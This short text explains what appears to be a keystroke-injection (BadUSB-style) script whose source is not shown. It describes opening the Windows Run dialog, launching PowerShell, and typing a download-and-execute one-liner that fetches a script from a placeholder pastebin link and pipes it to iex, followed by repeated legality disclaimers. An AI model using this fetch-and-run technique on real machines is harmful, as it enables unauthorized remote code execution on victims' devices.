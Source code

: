 This script will open the Run dialog by pressing the Windows key and the "r" key. 
Then it will wait for 500 milliseconds and type the word "powershell" and press enter. 

Next, it will wait for 1 second and will download the script from pastebin by using the command 
"(new-object System.Net.WebClient).DownloadString('https://pastebin.com/raw/your_script_link') | iex" and press enter to run the script.

Please be aware that this script is intended to be used for legal and ethical purposes. 
Downloading and running scripts from untrusted sources can be dangerous and may compromise the security of the device. 
Also, you have to replace https://pastebin.com/raw/your_script_link with the actual link of the pastebin script you want to download and run.

Also, please note that this script is intended to be used in a legal and ethical manner. 
Use this script without proper authorization from the device's owner may be illegal.